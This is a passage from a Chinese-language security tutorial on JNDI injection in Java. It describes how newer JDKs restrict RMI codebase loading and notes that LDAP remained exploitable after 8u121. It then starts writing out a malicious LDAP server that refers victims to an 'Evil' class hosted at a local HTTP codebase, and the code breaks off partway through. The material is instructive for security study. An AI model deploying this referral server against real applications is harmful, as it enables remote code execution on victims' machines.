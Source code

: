 在高版本中的`RegistryContext#decodeObject()`方法则增加了对类型以及`trustURLCodebase`的检查。

![img](/blog_img/图片-11-1024x366.png)

那么这种情况下是否还有机会来进行JNDI注入呢，实际上，JDK中JNDI原生支持四种协议：

- RMI: Java Remote Method Invocation，Java 远程方法调用
- LDAP: 轻量级目录访问协议
- CORBA: Common Object Request Broker Architecture，通用对象请求代理架构，用于 COS 名称服务(Common Object Services)
- DNS（域名转换协议）

在JDK8u121中，其他三种协议都进行了如RMI一般的修复，而对于ldap协议仍然可以继续被利用：

添加依赖：

```java
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>3.1.1</version>
    <scope>test</scope>
</dependency>
```

构建一个LDAP服务端：

```java
package JNDI;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main (String[] args) {
        String url = "http://127.0.0.1:8000/#Evil";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
```